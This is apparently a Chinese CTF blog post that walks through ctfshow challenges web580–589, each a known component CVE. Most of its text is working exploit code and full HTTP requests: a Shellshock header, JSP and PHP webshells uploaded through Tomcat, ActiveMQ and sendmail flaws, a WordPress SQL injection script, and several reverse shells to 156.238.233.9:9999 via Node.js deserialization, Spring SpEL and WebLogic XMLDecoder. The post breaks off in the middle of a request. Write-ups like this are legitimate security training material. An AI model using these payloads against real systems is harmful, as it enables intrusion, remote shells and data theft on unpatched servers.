



+++
title = "ctfshow组件漏洞"
slug = "ctfshow-component-vulnerabilities"
description = "全是CVE"
date = "2025-02-21T16:38:05"
lastmod = "2025-02-21T16:38:05"
image = ""
license = ""
categories = ["ctfshow"]
tags = []
+++

## web580

首先进来看到一个关键词，搜索**破壳RCE漏洞**，搜到了一个CVE漏洞，复现一下，bash版本小于等于4.3，会直接执行http头里面的命令，导致漏洞出问题是以`(){`开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令，

```http
GET /cgi-bin/index.cgi HTTP/1.1
Host: 561c8532-c77c-44cc-8154-4eee26f39955.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36;
x: () { :; }; echo; /bin/cat /f*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://561c8532-c77c-44cc-8154-4eee26f39955.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1


```

## web581

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class log{
    public $filename;
    public $content;
    public function __construct($n,$c){
        $this->filename=$n;
        $this->content=$c;
    }
    public function __destruct(){
        file_put_contents($this->filename, $this->content);
    }
}

$log = 'web.log';
$content = yaml_parse($_POST['content']);
new log($log,$content);
```

`yaml_parse`有漏洞，[官方文档](https://www.php.net/manual/zh/function.yaml-parse.php)

> Processing untrusted user input with **yaml_parse()** is dangerous if the use of [unserialize()](https://www.php.net/manual/zh/function.unserialize.php) is enabled for nodes using the `!php/object` tag. This behavior can be disabled by using the `yaml.decode_php` ini setting.

也就是说如果`!php/object`开头的话也就是作为一个标签，就会反序列化

```php
<?php

class log{
    public $filename="shell.php";
    public $content='<?php @eval($_POST[1]);?>';
}
echo '!php/object '.urlencode(serialize(new log()));
```

## web582

nodejs反序列化漏洞，直接复现一下，感觉价值不大 [nodejs反序列化](https://www.anquanke.com/post/id/85458)

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

他是对cookie进行了反序列化，



```
python2 1.py 156.238.233.9 9999

{"username":"_$$ND_FUNC$$_function (){YOUR-PAYLOAD}()"}

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,53,54,46,50,51,56,46,50,51,51,46,57,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

那么我们也进行base64编码，打入即可反弹shell

## web583

有NDAY，是写入webshell，可以直接打

```http
POST / HTTP/1.1
Host: 2e847728-8d07-4d42-87ad-10936fc56cc4.challenge.ctf.show
Connection: keep-alive
Content-Length: 33
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://2e847728-8d07-4d42-87ad-10936fc56cc4.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://2e847728-8d07-4d42-87ad-10936fc56cc4.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

name=aaa&email="aaa".+-OQueueDirectory=/tmp/.+-X/var/www/html/a.php+@aaa.com&message=<?php @eval($_POST[1]); ?>
```

## web584

[CVE-2017-8046](https://zhuanlan.zhihu.com/p/166373950) 先创建用户

```http
POST /api/people HTTP/1.1
Host: 3d0f84d0-ac3b-4dbd-b6bf-74d156de052c.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
Content-Type: application/json

{"firstName":"wi","lastName":"win"}
```

```python
payload = b'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTYuMjM4LjIzMy45Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

```http
PATCH /api/people/1 HTTP/1.1
Host: 3d0f84d0-ac3b-4dbd-b6bf-74d156de052c.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
Content-Type: application/json-patch+json

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,84,89,117,77,106,77,52,76,106,73,122,77,121,52,53,76,122,107,53,79,84,107,103,77,68,52,109,77,81,61,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "whatever" }]
```

## web585

[Apache Tomcat（CVE-2017-12615）](https://www.cnblogs.com/confidant/p/15440233.html)，没错这就是去年年底那个，PUT上传jsp木马的第一版本，那个属于是绕过这个CVE修补之后的限制，所以直接上传就好了

```http
PUT /a.jsp/ HTTP/1.1
Host: c08e86b7-9d9a-4b5a-9f0e-be213b4f5f56.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

<%
if("023".equals(request.getParameter("pwd"))){
	java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
	int a = -1;
	byte[] b = new byte[2048];
	out.print("<pre>");
	while((a=in.read(b))!=-1){
		out.println(new String(b));
 	}
	out.print("</pre>");
 }
%>
```

访问`/a.jsp?pwd=023&i=cat /flag`

## web586

近期文章  WordPress 某插件存在sql注入 [漏洞文章](https://www.exploit-db.com/exploits/39896)

```php
public function populate_download_edit_form() {

    global $wpdb; // this is how you get access to the database

    if( isset( $_POST[ 'id' ] ) ) {

        $value = $_POST[ 'id' ];

        $download = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}doifd_lab_downloads WHERE doifd_download_id = $value", ARRAY_A );
    }
    echo json_encode( $download );
    die(); // this is required to terminate immediately and return a proper response
}
```

好像是有点问题，没出

```python
import requests

burp0_url = "http://3939c8e7-0e79-499f-bfc4-a13ce882aa33.challenge.ctf.show:443/wp-admin/admin-ajax.php?action=populate_download_edit_form"
burp0_cookies = {"cf_clearance": "FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs", "SL_G_WPT_TO": "zh", "SL_GWPT_Show_Hide_tmp": "1", "SL_wptGlobTipTmp": "1"}
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not A(Brand\";v=\"8\", \"Chromium\";v=\"132\", \"Google Chrome\";v=\"132\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://3939c8e7-0e79-499f-bfc4-a13ce882aa33.challenge.ctf.show/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Priority": "u=0, i", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
burp0_data = {"id": "0 union select 1,2,3,4,5,6,load_file(0x2f666c61675f69735f68657265)--+"}
r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
print(r.text)
print(r.status_code)
```

返回是400错误，一直打不通，但是exp我敢肯定是对的

## web587

CVE-2017-10271，访问`/wls-wsat/CoordinatorPortType`发现漏洞点



```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: b616c0fd-d72b-4856-9084-b3de8997f324.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=0
Content-Type: text/xml
Content-Length: 204

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/156.238.233.9/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

## web588

CVE-2018-2894，首先弱密码登录`admin\admin`，WebLogic管理端未授权的两个页面存在任意上传getshell漏洞，可直接获取权限。两个页面分别为`/ws_utc/begin.do`，`/ws_utc/config.do`，先访问`/ws_utc/config.do`把工作目录改成无需权限的CSS目录

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

设置-》安全，上传木马`shell.jsp`，获得时间戳

```jsp
<%
if("023".equals(request.getParameter("pwd"))){
	java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
	int a = -1;
	byte[] b = new byte[2048];
	out.print("<pre>");
	while((a=in.read(b))!=-1){
		out.println(new String(b));
 	}
	out.print("</pre>");
 }
%>
```

得到回显时间戳，然后访问即可RCE`/ws_utc/css/config/keystore/[时间戳]_[文件名]`，这里用ctfshow开半天开不了，直接用[vulhub ](https://vulhub.org/#/environments/weblogic/CVE-2018-2894/) 

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2018-2894
docker compose up -d
docker logs 901bc1758d76

admin password  : [rCMtK9ai]
admin name      : [AdminServer]
admin username  : [weblogic]
```

然后后面就是跟着复现就可以了

## web589

CVE-2016-3088 访问`/admin/test/systemProperties.jsp`，一样的`admin\admin`，查看ActiveMQ的绝对路径`activemq.home`为`/opt/activemq`，那开始上传文件，首先是生成shell的包

```http
PUT /fileserver/1.txt HTTP/1.1
Host: e94341b0-9cfb-478e-90db-92ff36182c2a.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

<%
if("023".equals(request.getParameter("pwd"))){
	java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
	int a = -1;
	byte[] b = new byte[2048];
	out.print("<pre>");
	while((a=in.read(b))!=-1){
		out.println(new String(b));
 	}
	out.print("</pre>");
 }
%>
```

响应包状态码为204则是成功了，再把shell移动到绝对路径下面来供我们使用

```http
MOVE /fileserver/1.txt HTTP/1.1
Host: e94341b0-9cfb-478e-90db-92ff36182c2a.challenge.ctf.show
Destination: file:///opt/activemq/webapps/api/shell.jsp
